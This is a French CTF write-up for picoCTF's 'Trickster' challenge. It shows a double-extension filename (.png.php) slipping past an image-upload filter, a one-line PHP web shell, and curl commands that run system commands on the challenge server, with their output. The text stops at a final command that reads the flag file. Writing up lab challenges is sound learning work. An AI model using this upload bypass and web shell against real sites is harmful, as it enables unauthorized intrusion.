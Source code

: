 ## Trickster(300pts)
### Description:
I found a web app that can help process images: PNG images only! Try it [here](http://atlas.picoctf.net:60160/)!

### Solution:
Dans ce challenge, je trouve un system de telechargement de fichier.
![File Upload](https://i.ibb.co/Mf7YfXS/Screenshot-2024-03-27-at-16-08-49-File-Upload-Page.png)

La premiere idée qui me viennent en tete est que ce site serait vulnerable aux vulnerabilités de File Upload. Mais on me dit que je ne peux seulement que mettre des fichiers `PNG`
- En faisant un Test d'un fichier `.png` je recois.
`File uploaded successfully and is a valid PNG file. We shall process it and get back to you... Hopefully `
- Et pour un fichier `.php` je recois.
`Error: File name does not contain '.png'.`

Il me semble que mon fichier doit juste contenir le `.png`, par exemple je peux dire `fichier.png.php` ou `fichier.png.png.php` et cela aussi fonctionne. De base je vais juste essayer d'afficher le page `phpinfo`
![phpinfo](https://i.ibb.co/cJjrnMD/u1.png)

Dans la reponse on me dit que mon fichier a bien uploader, mais ou ? et donc dans le `/robots.txt` je trouve ici.
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

![phpinfo 2](https://i.ibb.co/6wPtDTv/u2.png)

Bon, notre code injecter fonction, et on a le fichier `phpinfo` en retour. Maintenant je vais remplacer le code php que j'ai mis par ``<?=`$_GET[0]`?>`` pour avoir un RCE.

```sh
└─# curl -s  "http://atlas.picoctf.net:60160/uploads/hacked.png.php?0=id" | strings 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
└─# curl -s  "http://atlas.picoctf.net:60160/uploads/hacked.png.php?0=ls+/" | strings
boot
challenge
home
lib64
media
proc
root
sbin
└─# curl -s  "http://atlas.picoctf.net:55288/uploads/hacked.png.php?0=pwd" | strings
/var/www/html/uploads
└─# curl -s  "http://atlas.picoctf.net:55288/uploads/hacked.png.php?0=ls+-la+../" | strings
total 16
drwxrwxrwt 1 www-data www-data   21 Mar 11 23:59 .
drwxr-xr-x 1 root     root       18 Nov 21 14:01 ..
-rw-r--r-- 1 root     root       49 Mar 11 23:59 GNTDOMBWGIZDE.txt
-rw-r--r-- 1 root     root     1572 Feb  7 17:25 index.php
-rw-r--r-- 1 root     root      415 Feb  7 17:25 instructions.txt
-rw-r--r-- 1 root     root       62 Feb  7 17:25 robots.txt
drwxr-xr-x 1 www-data root       28 Mar 27 21:36 uploads
```
je trouve un fichier `GNTDOMBWGIZDE.txt`,
```sh
─# curl -s  "http://atlas.picoctf.net:55288/uploads/hacked.png.php?0=cat+../GNTDOMBWGIZDE.txt" | strings
```